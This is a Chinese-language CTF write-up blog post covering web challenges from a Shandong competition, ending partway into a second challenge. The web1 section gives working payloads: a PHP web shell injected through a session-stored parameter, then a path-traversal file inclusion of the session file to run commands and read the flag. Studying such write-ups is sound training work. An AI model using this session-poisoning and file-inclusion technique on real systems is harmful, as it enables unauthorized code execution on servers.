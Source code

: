 ```yaml
---
layout: post
title: 山东省新一代攻防赛wp
---
```


> 地点：聊城职业学院 ， u1s1门口的小摊挺多的（哧溜～) 

![1](https://tva1.sinaimg.cn/large/0081Kckwly1gl0bqccqiaj30u00u04qp.jpg)

# web

## web1 （反正就是有很多页面，你能发现其中的关键信息吗？）

知识点（细心最重要！尽量每个操作都要抓包分析）

- 信息收集
- 文件包含
- 代码审计
- session特性

打开题目，只有一个登录表单

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ktzlbxj30tc16eaz7.jpg" alt="image-20201124101408979" style="zoom: 33%;" />

二话不说，直接dirsearch一波

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ntxh1vj315b0u0aux.jpg" alt="image-20201124101705278"  />

/php.php 是个phpinfo

访问`/register.php`注册个账户去登录，登录处抓包

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01vv26xrj31ye0q2qbz.jpg" alt="image-20201124102449438"  />

后面简单测了测发现登录处过滤了单引号，sql注入是不行了，继续往下跟

![image-20201124102851131](https://tva1.sinaimg.cn/large/0081Kckwly1gl0202hdpaj32iw0mo1a8.jpg)

发现好像进入了后台界面，同时发现了hint

​	`<!--hint: m4nageee.php-->`

但是这还是个302跳转包，跳到了`/user.php?page=guest` 可见程序对登录用户做了判断。

简单测了下`page`参数发现有任意文件包含

![image-20201124103737192](https://tva1.sinaimg.cn/large/0081Kckwly1gl0296n5ofj31uo0p2n6l.jpg)

包含m4nageee.php，发现后台有个表单

![image-20201124111402262](https://tva1.sinaimg.cn/large/0081Kckwly1gl03b2hmdvj30s40nqgpa.jpg)

于是读`m4nageee.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/profile233.html";

?>
```

访问`templates/profile233.html`查看源代码

![image-20201124110331496](https://tva1.sinaimg.cn/large/0081Kckwly1gl0304hz6nj30m40a6ac1.jpg)

看到了这段代码就懂了，解释一下：

如果`nick`参数为空，就把`nick`的值赋给`session`的`nick`的值，众所周知，`session`是存储在服务器端的

而且`nick`的值没有做过滤，所以当`session`可控时，就可以传入恶意代码

构造payload

```php
http://47.105.128.249:36001/user.php?nick=<?php @system($_GET[c]);?>&page=m4nageee
```

session保存路径在之前发现的phpinfo文件可以查到

![image-20201124112704975](https://tva1.sinaimg.cn/large/0081Kckwly1gl03on7kkfj30g401at8q.jpg)

当前session

![image-20201124113029636](https://tva1.sinaimg.cn/large/0081Kckwly1gl03s6pv4dj30e005emxh.jpg)

包含session文件，getshell

```
http://47.105.128.249:36001/user.php?page=../../../var/lib/php5/sess_90qqo7oj3p9ca8jdsousbk8ld0&c=cat fl*
```



![image-20201124114630721](https://tva1.sinaimg.cn/large/0081Kckwly1gl048um28xj31h407kgnl.jpg)

`flag{c785407bfa1c768e50373480ad5c2765}`

## web2

知识点

- 信息收集
- header头注入

![image-20201130104507991](https://tva1.sinaimg.cn/large/0081Kckwly1gl706wedckj30yg0owt9x.jpg)

burp抓包登录（简单的测试了下username和password并无sql注入）

![image-20201130104649869](https://tva1.sinaimg.cn/large/0081Kckwly1gl708mik27j31gy0u0nkg.jpg)

源代码中发现`test:test`用户密码，尝试登录

![image-20201130104850253](https://tva1.sinaimg.cn/large/0081Kckwly1gl70asbhclj31gy0u07pz.jpg)

这里发现response返回包中给了cookie两个参数

```
username=test
password=test
```


